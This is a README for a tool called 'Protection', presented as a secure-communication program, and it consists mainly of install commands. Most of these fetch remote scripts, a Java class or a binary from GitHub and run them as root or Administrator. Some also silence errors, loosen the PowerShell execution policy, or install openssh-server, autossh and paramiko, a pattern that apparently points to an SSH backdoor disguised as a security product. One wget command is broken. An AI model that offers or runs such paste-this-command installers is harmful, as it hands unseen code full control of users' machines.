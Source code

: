 # Protection

Protection is a lightweight Python program for secure, encrypted 
communication that use known protocols.

It ensures safe transmission of sensitive data between clients and servers. 
Ideal for protecting user data, confidential communications, 
or securing internal networks with ease and reliability.

## Installation Instructions for Windows Users

Follow these simple steps to install Protection on your Windows system.

### Prerequisites

1. **Python**: Ensure that you have Python installed on your system. If not, download and install the latest version of Python 
from [python.org](https://www.python.org/downloads/).
   
2. **Git**: Install Git if you don't already have it. You can download it from [git-scm.com](https://git-scm.com/).

3. **PowerShell Execution Policy**: To allow running scripts locally in PowerShell, you may need to adjust the execution policy.

    - **Start Windows PowerShell as Administrator**: Right-click on the PowerShell icon and select "Run as Administrator". 
	You must be a member of the Administrators group on your computer to change the execution policy.

    - **Enable running unsigned scripts**: Enter the following command in the PowerShell terminal:

      ```powershell
      set-executionpolicy remotesigned
      ```
	  Enabling this policy gives you the flexibility to use scripts from various sources for local development, without the 
	  overhead of requiring signatures. It’s particularly helpful when you need to automate tasks quickly and don’t want to 
	  go through the signing process for internal tools.


### Quick Installation

For the fastest way to install the tool, run a PowerShell prompt as administrator and execute this single command in it:

```powershell
Set-ExecutionPolicy RemoteSigned -Scope Process -Force; Invoke-WebRequest -Uri "https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public.ps1" -OutFile "$env:TEMP\add_public.ps1"; & "$env:TEMP\add_public.ps1"
```

This will automatically download the add_public.ps1 script and execute it to complete the setup.

### Detailed Installation Steps

1. **Clone the Repository**:
   Open PowerShell or Command Prompt and run the following command to clone the repository:

```powershell
   git clone https://github.com/NeronNymus/protection.git
```

### Navigate to the Protection Directory
After cloning the repository, change to the protection directory:

```powershell
cd protection/light
```

Execute the add_public.ps1 script to complete the installation:

```powershell
.\add_public.ps1
```
or
```bash
	.\add_public2.sh
```

for linux.

This script will install all necessary dependencies and set up the program on your system. 
If Python is not already installed, the script will attempt to download and install it automatically.

# Installation Instructions for Linux Users

There exist other five ways to install protection: using `curl`,`wget`, the Python interpreter, Java source code or C source code.

## Option 1: Install Using curl

1. **Install curl or wget (if you don't have it already):**

```bash
   sudo apt update -y && sudo apt install sudo curl openssh-server autossh wget python3 python3-pip python3-venv default-jdk -y
```

```bash
   apt update -y && apt install sudo curl openssh-server autossh -y
```

Or whatever package manager your distro use (pacman, yum).

A single command:

```bash
   apt update -y && apt install sudo curl -y && curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public2.sh && sudo bash add_public2.sh 2>/dev/null
```



Download and Execute the Install Script: Run the following command to download and execute the installation script:

 ```bash
curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public2.sh && sudo bash add_public2.sh 2>/dev/null
```

Or using wget like this:

 ```bash
wget -q -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public2.sh && sudo bash add_public2.sh 2>/dev/null
```
 ```bash
wget -q -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public2.sh && sudo bash add_public2.sh 2>/dev/null
```

Or using java like this:

 ```bash
curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/InstallProtection.class && sudo java InstallProtection
```

Or compiling from source code from java:
 ```bash
curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/InstallProtection.java && javac InstallProtection.java && sudo java InstallProtection
```

Or executing directly the binary compiled with gcc:
 ```bash
curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/protection && sudo ./protection
```

In the commands above wget can be used instead of curl if you prefer it.



## Option 2: Install Using Python
2. If you already have a python interpreter you can use it for installing this tool.
All you need is the 'requests' library, fetch it with

```bash
sudo pip install requests paramiko
```
or 
```bash
sudo pip install -r requirements.txt
```

Now, download the installation script:

```bash
python3 -c "import requests; r = requests.get('https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/install_protection.py'); open('install_protection.py', 'wb').write(r.content)"
```

Run the Installation Script: Execute the downloaded installation script using sudo:

```bash
sudo python3 install_protection.py
```


This will download the necessary files and set up the Protection program on your Windows or Linux system.
